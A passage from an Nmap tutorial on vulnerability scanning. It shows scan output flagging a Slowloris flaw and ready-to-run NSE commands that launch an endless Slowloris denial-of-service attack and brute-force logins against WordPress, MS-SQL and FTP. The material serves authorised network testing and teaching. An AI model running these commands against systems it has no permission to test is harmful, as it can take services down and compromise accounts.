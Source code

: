 | Slowloris tries to keep many connections to the target web server open and hold
| them open as long as possible. It accomplishes this by opening connections to
| the target web server and sending a partial request. By doing so, it starves
| the http server's resources causing Denial Of Service.
|
| Disclosure date: 2009-09-17
| References:
| http://ha.ckers.org/slowloris/
|_ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
1900/tcp open upnp
20005/tcp open btx
49152/tcp open unknown
49153/tcp open unknown
As you can see, in this vulnerability test we were able to detect one CVE (Slowloris DOS attack).

¶14. Launching DOS with Nmap
Nmap features never seem to end, and thanks to the NSE, that even allows us to launch DOS attacks against our network testings.

In our previous example (#12) we found the host was vulnerable to Slowloris attack, and now we’ll try to exploit that vulnerability by launching a DOS attack in a forever loop:

nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true
¶15. Launching brute force attacks
NSE is really fascinating -- it contains scripts for everything you can imagine. See the next three examples of BFA against WordPress, MSSQL, and FTP server:

WordPress brute force attack:

nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.1.105
Brute force attack against MS-SQL:

nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 192.168.1.105
FTP brute force attack:

nmap --script ftp-brute -p 21 192.168.1.105

¶16. Detecting malware infections on remote hosts
Nmap is able to detect malware and backdoors by running extensive tests on a few popular OS services like on Identd, Proftpd, Vsftpd, IRC, SMB, and SMTP. It also has a module to check for popular malware signs inside remote servers and integrates Google’s Safe Browsing and VirusTotal databases as well.
